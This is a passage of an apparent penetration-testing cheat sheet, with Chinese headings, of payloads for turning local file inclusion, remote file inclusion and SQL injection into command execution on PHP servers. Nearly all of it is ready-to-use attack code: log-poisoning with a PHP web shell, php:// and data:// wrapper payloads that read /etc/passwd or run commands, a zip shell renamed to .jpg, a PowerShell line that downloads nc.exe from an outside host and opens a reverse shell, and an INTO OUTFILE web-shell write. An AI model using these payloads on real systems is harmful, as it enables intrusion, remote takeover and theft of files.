 #### **本地文件包含到Shell**

```text
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close

# Then send as cmd payload via http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
```

**本地文件包含:读取文件**

```text
file:///etc/passwd

http://example.com/index.php?page=php://input&cmd=ls
    POST: <?php system($_GET['cmd']); ?>
http://192.168.2.237/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
    POST: <?php system('uname -a');die(); ?>

expect://whoami
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=id
http://10.1.1.1/index.php?page=data://text/plain,%3C?php%20system%28%22uname%20-a%22%29;%20?%3E

# ZIP Wrapper
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
http://example.com/index.php?page=zip://shell.jpg%23payload.php

# 循环遍历文件描述符
curl '' -H 'Cookie: PHPSESSID=df74dce800c96bcac1f59d3b3d42087d' --output -
```

**远程文件包含Shell: Windows + PHP**

```text
<?php system("powershell -Command \"& {(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.245/netcat/nc.exe','nc.exe'); cmd /c nc.exe 10.11.0.245 4444 -e cmd.exe\" }"); ?>
```

**SQL注入到Shell或后门**

```text
# Assumed 3 columns
http://target/index.php?vulnParam=0' UNION ALL SELECT 1,"<?php system($_REQUEST['cmd']);?>",2,3 INTO OUTFILE "c:/evil.php"-- uMj
```

